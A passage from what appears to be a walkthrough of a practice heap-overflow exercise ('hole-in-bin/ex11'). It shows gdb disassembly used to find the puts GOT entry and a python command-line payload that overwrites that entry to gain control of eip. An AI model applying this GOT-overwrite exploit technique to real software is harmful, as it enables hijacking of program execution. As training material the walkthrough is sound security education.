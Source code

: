 
We see that `0x0804a038` address on the heap points to the second argument (0x42424242) location. And by using 20 bytes of random characters we can create a buffer overflow and write there anyting we want.

Most reliable method to use would be to overwrite an entry of the GOT (global offset table).
After the `strcopy` in main there's `puts` function so let's overwrite the address for that.

Find `puts` GOT entry address:

```sh
(gdb) disassemble main
Dump of assembler code for function main:
   # ...
   0x08048561 <+168>:   call   0x80483cc <puts@plt> # <--
   # ...
End of assembler dump.

(gdb) x 0x80483cc
0x80483cc <puts@plt>:   0x977425ff

(gdb) disassemble 0x80483cc
Dump of assembler code for function puts@plt:
   0x080483cc <+0>:     jmp    DWORD PTR ds:0x8049774 # <--
   0x080483d2 <+6>:     push   0x30
   0x080483d7 <+11>:    jmp    0x804835c
End of assembler dump.

(gdb) x 0x8049774
0x8049774 <puts@got.plt>:       0x080483d2

# \x74\x97\x04\08
```

From info registers we see that we successfully got control of `eip`, which means we can now redirect code anywhere we want.

```sh
(gdb) r `python -c "print 'A' * 20 + '\x74\x97\x04\x08'"` 000011112222333344445555
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/hole-in-bin/ex11/bin `python -c "print 'A' * 20 + '\x74\x97\x04\x08'"` 000011112222333344445555

Program received signal SIGSEGV, Segmentation fault.
0x30303030 in ?? ()

(gdb) info registers
# ...

eip            0x30303030       0x30303030 # 30303030 is 0000 in the second argument

# ...
```
